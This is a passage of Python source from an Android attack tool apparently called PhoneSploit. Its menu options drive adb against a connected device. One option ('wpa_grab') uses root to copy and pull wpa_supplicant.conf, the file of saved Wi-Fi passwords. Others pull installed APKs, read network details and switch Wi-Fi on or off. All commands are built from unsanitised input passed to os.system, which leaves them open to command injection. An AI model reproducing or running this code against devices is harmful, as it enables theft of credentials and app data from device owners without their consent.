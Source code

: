     elif option == '17':
        try:
            print (("[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
            device_name = input(arrow + "phonesploit"+Fore.RED + "(wpa_grab) "+Fore.WHITE + "> ")
            print ((Fore.WHITE + "    [{0}+{1}]{1}THE DEVICE NEEDS TO BE ROOTED TO CONTINUE TO EXIT USE CTRL +C").format(Fore.RED, Fore.WHITE))
            print (("     "+connect))
            print (("    [{0}+{1}]Enter where you want the file to be saved.").format(Fore.RED, Fore.WHITE))
            location = input("    "+arrow + "phonesploit"+Fore.RED + "(wpa_grab) "+Fore.WHITE + "> ")
            os.system("adb -s "+device_name+" shell "+"su -c 'cp /data/misc/wifi/wpa_supplicant.conf /sdcard/'")
            os.system("adb -s "+device_name+" pull /sdcard/wpa_supplicant.conf "+location)
        except KeyboardInterrupt:
            main()

    elif option == '18':
        print (("\n[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(mac_inet) "+Fore.WHITE + "> ")
        os.system("adb -s " +device_name+ " shell ip address show wlan0")
        main()

    elif option == '19':
        print (("\n[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(pull_apk) "+Fore.WHITE + "> ")
        print (("     "+connect))
        print (("    [{0}+{1}]Enter a package name. They look like this --> com.snapchat.android").format(Fore.RED, Fore.WHITE))
        package_name = input("    "+arrow + "phonesploit"+Fore.RED + "(pull_apk) "+Fore.WHITE + "> ")
        os.system("adb -s "+device_name+" shell pm path "+package_name)
        print (("         "+connect))
        print (("        [{0}+{1}]Enter the path. It's looks like this /data/app/com.snapchat.android-qWgDcBiCEvANq6op_NPqeA==/base.apk").format(Fore.RED, Fore.WHITE))
        path = input("        "+arrow + "phonesploit"+Fore.RED + "(pull_apk) "+Fore.WHITE + "> ")
        print (("             "+connect))
        print (("            [{0}+{1}]Enter The location to store the apk: ")  .format(Fore.RED, Fore.WHITE))
        location =   input("            "+arrow + "phonesploit"+Fore.RED + "(pull_apk) "+Fore.WHITE + "> ")
        os.system("adb -s " +device_name+" pull "+path+" "+location)
        main()

    elif option == '20':
        print (("\n[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(battery) "+Fore.WHITE + "> ")
        os.system("adb -s " +device_name+ " shell dumpsys battery")
        main()

    elif option == '21':
        print (("\n[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(net_stat) "+Fore.WHITE + "> ")
        os.system("adb -s " +device_name+ " shell netstat")
        main()

    elif option == '22':
        print (("\n[{0}+{1}]Enter a device name.").format(Fore.RED, Fore.WHITE))
        device_name = input(arrow + "phonesploit"+Fore.RED + "(wifi) "+Fore.WHITE + "> ")
        print (("     "+connect))
        print (("    [{0}+{1}] To turn wifi back on you need the device to be pluged in.").format(Fore.RED, Fore.WHITE))
        print (("     "+connect))
        on_off = input(Fore.WHITE + "    ["+Fore.RED+"+"+Fore.WHITE+"]Would you like the wifi "+Fore.GREEN +"on"+Fore.WHITE +"/"+Fore.RED +"off "+Fore.WHITE)
        if on_off == 'off':
            command = " shell svc wifi disable"
        else:
            command = " shell svc wifi enable"
